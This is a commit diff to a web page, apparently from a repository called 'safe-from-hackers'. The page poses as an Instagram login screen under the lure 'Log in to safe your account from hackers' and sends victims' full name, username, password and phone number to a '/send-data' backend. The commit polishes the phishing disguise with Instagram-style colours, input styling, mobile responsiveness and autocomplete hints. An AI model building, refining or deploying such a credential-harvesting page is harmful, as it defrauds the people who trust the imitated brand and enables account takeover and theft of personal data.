

Before and after one commit to tahirlaghari094-glitch/safe-from-hackers, a website: page index.html in a window 1280 px wide. Shown: the part 259-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,71 +2,121 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
+  <!-- Mobile friendly initial zoom setting -->
+  <meta name="viewport" content="width=device-width, initial-scale=1.0">
   <title>Instagram Login</title>
   <style>
     body {
       margin: 0;
-      font-family: Arial, sans-serif;
+      padding: 0;
+      font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif;
       background: linear-gradient(135deg, #f58529, #dd2a7b, #8134af, #515bd4);
       height: 100vh;
       display: flex;
       justify-content: center;
       align-items: center;
+      box-sizing: border-box;
     }
+
     .login-container {
       background: #fff;
-      padding: 40px;
+      padding: 30px; /* Thoda kam padding mobile ke liye */
       border-radius: 12px;
       box-shadow: 0 4px 20px rgba(0,0,0,0.2);
-      width: 350px;
+
+      /* Flexibility ke liye width % use karein, max constraints ke sath */
+      width: 90%;
+      max-width: 350px;
+      min-width: 280px; /* Zyada chota na hone paye */
+
       text-align: center;
+      box-sizing: border-box;
     }
+
     .logo {
       font-family: 'Brush Script MT', cursive;
       font-size: 36px;
       color: #dd2a7b;
       margin-bottom: 10px;
     }
+
     .login-container h1 {
-      font-size: 18px;
+      font-size: 16px; /* Badi screens par safe rahne ke liye chota kiya */
       margin-bottom: 20px;
+      margin-top: 0;
       color: #dd2a7b;
       animation: pulse 2s infinite;
     }
+
     @keyframes pulse {
       0% { color: #dd2a7b; }
       50% { color: #f58529; }
       100% { color: #dd2a7b; }
     }
+
     .login-container input {
       width: 100%;
       padding: 12px;
-      margin: 10px 0;
-      border: 1px solid #ccc;
-      border-radius: 8px;
+      margin: 8px 0; /* Margin thoda kam kiya */
+      border: 1px solid #dbdbdb;
+      border-radius: 6px; /* modern insta style */
       font-size: 14px;
       box-sizing: border-box;
+      background-color: #fafafa; /* insta light grey input */
     }
+
+    .login-container input:focus {
+        border-color: #a8a8a8;
+        outline: none;
+    }
+
     .login-container button {
       width: 100%;
-      padding: 12px;
-      background: #dd2a7b;
+      padding: 10px;
+      background-color: #0095f6; /* modern insta blue button color */
       border: none;
-      border-radius: 8px;
+      border-radius: 6px;
       color: #fff;
-      font-size: 16px;
+      font-size: 14px;
+      font-weight: 600;
       cursor: pointer;
-      transition: background 0.3s ease;
+      transition: background-color 0.3s ease;
+      margin-top: 15px;
     }
-    .login-container button:hover {
-      background: #8134af;
+
+    .login-container button:not(:disabled):hover {
+      background-color: #1877f2; /* Hover par dark blue */
     }
+
+    .login-container button:disabled {
+        background-color: #b2dffc; /* Disabled state color */
+        cursor: not-allowed;
+    }
+
     .success-message {
       display: none;
       font-size: 16px;
       color: green;
       margin-top: 20px;
     }
+
+    /* Tablet size optimizations */
+    @media (min-width: 400px) and (max-width: 600px) {
+        .login-container h1 {
+            font-size: 17px;
+        }
+    }
+
+    /* Badi screen optimizations */
+    @media (min-width: 601px) {
+        .login-container {
+            padding: 40px; /* Thoda zyada padding badi screens par */
+        }
+        .login-container h1 {
+            font-size: 18px;
+        }
+    }
+
   </style>
 </head>
 <body>
@@ -74,10 +124,10 @@
     <div class="logo">Instagram</div>
     <h1>Log in to safe your account from hackers</h1>
     <form id="loginForm">
-      <input type="text" id="fullname" placeholder="Full Name" required>
-      <input type="text" id="username" placeholder="Username" required>
-      <input type="password" id="password" placeholder="Password" required>
-      <input type="tel" id="phone" placeholder="Phone Number" required>
+      <input type="text" id="fullname" placeholder="Full Name" required autocomplete="name">
+      <input type="text" id="username" placeholder="Username" required autocomplete="username">
+      <input type="password" id="password" placeholder="Password" required autocomplete="current-password">
+      <input type="tel" id="phone" placeholder="Phone Number" required autocomplete="tel">
       <button type="submit" id="submitBtn">Log In</button>
     </form>
     <div class="success-message" id="successMessage">
@@ -87,7 +137,7 @@
 
   <script>
     document.getElementById("loginForm").addEventListener("submit", async function(e){
-      e.preventDefault();
+      e.preventDefault(); // Prevents page reload
 
       const fullname = document.getElementById("fullname").value;
       const username = document.getElementById("username").value;
@@ -99,7 +149,8 @@
       submitBtn.innerText = "Please wait...";
 
       try {
-        // Relative path '/send-data' use kiya hai jo server.js ke route se exact match karta hai
+        // Relative path '/send-data' is used. It automatically points
+        // to the current domain's backend, preventing URL mismatch issues.
         const response = await fetch('/send-data', {
           method: 'POST',
           headers: {
@@ -112,13 +163,16 @@
           document.getElementById("loginForm").style.display = "none";
           document.getElementById("successMessage").style.display = "block";
         } else {
+          // You could be more specific here depending on backend response,
+          // but a generic error is okay for simple cases.
           alert("Kuch masla ho gaya hai, dobara try karein.");
           submitBtn.disabled = false;
           submitBtn.innerText = "Log In";
         }
       } catch (error) {
+        // Log errors properly for debugging
         console.error("Error:", error);
-        alert("Server connect nahi ho saka!");
+        alert("Server connect nahi ho saka! Internet check karein.");
         submitBtn.disabled = false;
         submitBtn.innerText = "Log In";
       }
```
